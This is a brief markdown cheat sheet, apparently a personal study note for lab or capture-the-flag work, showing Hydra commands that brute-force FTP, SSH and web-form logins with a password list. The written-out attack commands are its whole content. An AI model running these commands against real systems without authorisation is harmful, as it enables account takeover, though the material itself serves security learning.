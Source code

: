 # Hydra

You use this bitch to brute force logins

Example:

To brute force an ftp server where you know the username, you would use 
`hydra -l user -P password.txt ftp://ipaddress`

You can also use it for an ssh server:
`hydra -l user -P password.txt ipaddress -t 4 ssh`

You can also use it for a web form. You must know what type of request it's making, which is usually GET or POST, use the developer tools to see what type of request the form is making. 
`sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"`

<login_credentials> - the username and password used to log in, for example, username=^USER^&password=^PASS^



